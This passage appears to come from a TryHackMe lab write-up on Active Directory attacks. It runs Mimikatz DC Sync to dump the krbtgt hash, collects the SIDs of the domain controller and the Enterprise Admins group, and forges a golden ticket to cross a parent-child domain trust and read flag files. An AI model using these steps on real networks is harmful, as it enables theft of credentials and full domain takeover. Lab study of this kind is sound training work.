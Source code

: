 We can verify if the exploit worked by trying to access `THMDC` in the same powershell session with the command:

```powershell
> dir \\THMDC.za.tryhackme.loc\c$
```

Now we can get the flag for this task by simply using the following command:

```bash
$ cat \\THMDC.za.tryhackme.loc\c$\Users\Administrator\Desktop\flag5.txt 
```

### Task 8

In the same session, we can use `Mimikatz` to perform a DC Sync to recover the KRBTGT password hash on `THMSERVER2`.

```powershell
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
> privilege:;debug
> lsadump::dcsync /user:za\krbtgt
# NTLM hash: 16f9af38fca3ada405386b3b57366082
```

We also need to recover 2 SIDs: the SID of the child DC (`THMDC`) which we will impersonate in our forged TGT, and the SID of the Enterprise Admins in the parent domainm which we will add as an extra SID to our forged TGT. We can do this using `AD-RSAT` Powershell cmdlets:

```powershell
# get SID of the child domain controller
> Get-ADComputer -Identity "THMDC"
# S-1-5-21-3885271727-2693558621-2658995185-1001

# get SID of the Enterprise Admins group
> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
# S-1-5-21-3330634377-1326264276-632209373-519
```

Finally, we can exploit the bidirectional domain trust between parent and child DC. We will use `Mimikatz` again, to generate the golden ticket with the following commands:

```powershell
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
> privilege::debug
> kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
```

We can now check if this is a valid ticket by testing our access to the `THMDC`, followed by checking our access for the parent DC - `THMROOTDC:`

```powershell
> dir \\thmdc.za.tryhackme.loc\c$
> dir \\thmrootdc.tryhackme.loc\c$\
```

Since we now have access to the parent DC, we can access the final flag by using the following command:

```powershell
> cat \\thmrootdc.tryhackme.loc\c$\Users\Administrator\Desktop\flag6.txt
```